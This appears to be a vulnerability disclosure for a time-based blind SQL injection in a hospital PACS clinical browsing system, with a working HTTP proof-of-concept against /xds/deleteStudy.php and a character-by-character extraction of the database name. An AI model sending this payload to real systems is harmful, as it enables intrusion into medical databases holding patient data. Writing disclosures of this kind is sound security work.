 There is a front-end SQL injection vulnerability in the clinical browsing system of Lanwang Technology Co., Ltd.

1. Impact of vulnerabilities  PACS clinical browsing system

2. Vulnerability location ：/xds/deleteStudy.php

3. The login interface is as shown in the figure:http://ip:82
![image](https://github.com/GAO-UNO/cve/assets/131429880/d15a8c36-f57a-426e-9282-c8b4eaf1134f)

4. Since the SQL injection here is a time-based blind injection, the database name needs to be determined through ASSCII. The POC is as follows
Here, it is judged through truncation that the first position in the database is X

POC
```
GET /xds/deleteStudy.php?documentUniqueId=1%27;if%20(ascii(substring(db_name(),1,1)))=88%20WAITFOR%20DELAY%20%270:0:5%27--%20q HTTP/1.1
Host: ip:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=mnir4pskp36nt4a3fh9jk6c2k4
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.1.23
```
![image](https://github.com/GAO-UNO/cve/assets/131429880/b7f2215c-77cc-4743-b551-7823cc4e4b33)

6. Here, it is judged through truncation that the second digit in the database is D.
![image](https://github.com/GAO-UNO/cve/assets/131429880/880cd765-45d0-440f-aae5-25b0e93cfbfe)

Here, it is judged through truncation that the third digit in the database is S.
![image](https://github.com/GAO-UNO/cve/assets/131429880/3b5ed4a9-d3d7-41da-9499-bbd4760cd467)
Here, it is judged through truncation that the fourth digit of the database is 7
![image](https://github.com/GAO-UNO/cve/assets/131429880/a9ebf412-9183-412d-8bfc-471b30436047)
Here, it is judged by truncation that the fifth bit of the database is 0
![image](https://github.com/GAO-UNO/cve/assets/131429880/9ce5c18b-3d36-4fed-bb8f-b4d1addac49e)
Here, it is judged through truncation that the sixth digit in the database is T
![image](https://github.com/GAO-UNO/cve/assets/131429880/286be8a6-3361-4d20-b8e0-a868a9de5a61)
Here, it is determined through delayed injection that the name of the database is: XDS70T
